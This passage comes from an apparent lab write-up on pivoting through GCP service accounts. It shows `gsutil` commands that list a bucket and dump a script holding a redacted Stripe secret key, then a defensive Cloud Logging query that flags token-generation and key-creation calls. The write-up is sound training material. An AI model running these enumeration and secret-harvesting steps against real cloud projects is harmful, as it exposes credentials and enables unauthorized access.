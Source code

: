 ```
<?xml version='1.0' encoding='UTF-8'?><Error><Code>AccessDenied</Code><Message>Access denied.</Message><Details>payments@gr-proj-4.iam.gserviceaccount.com does not have storage.buckets.list access to the Google Cloud project. Permission 'storage.buckets.list' denied on resource (or it may not exist).</Details></Error>
```
But attempting to recursively list the bucket named `gr-stripe` is successful.
```
└─$ gsutil ls -r gs://gr-stripe                       
gs://gr-stripe/flag.txt
gs://gr-stripe/transfer/:
gs://gr-stripe/transfer/
gs://gr-stripe/transfer/stripe-fetch.js

```

We see a file named `stripe-fetch.js` that seems to contain a Stripe API key
```
└─$ gsutil cp gs://gr-stripe/transfer/stripe-fetch.js -
const axios = require('axios');
const dotenv = require('dotenv');
dotenv.config({ path: './.env' });

const SECRET_KEY = '<REDACTED>';
const URL = 'https://api.stripe.com/v1/products/';

axios.get(URL, {
    headers: {
        'Authorization': `Bearer ${SECRET_KEY}`,
        'Content-Type': 'application/x-www-form-urlencoded'
    }
})
.then(response => { 
    console.log(response.data);
})
.catch(error => {
    console.log(error);
}); 
```
# Defense
Based on lab's [Defense](https://pwnedlabs.io/labs/pivot-through-service-accounts-using-dangerous-permissions) section.


Use GCP Cloud Logging and Logs Explorer to detect abuse of dangerous permissions that allow lateral movement between service accounts.
```
resource.type="service_account"
logName="projects/gr-proj-4/logs/cloudaudit.googleapis.com%2Fdata_access"
protoPayload.methodName=(
  "GenerateAccessToken" OR
  "signJwt" OR
  "signBlob" OR
  "SetIamPolicy" OR
  "UploadServiceAccountKey" OR
  "CreateServiceAccountKey"
)
```
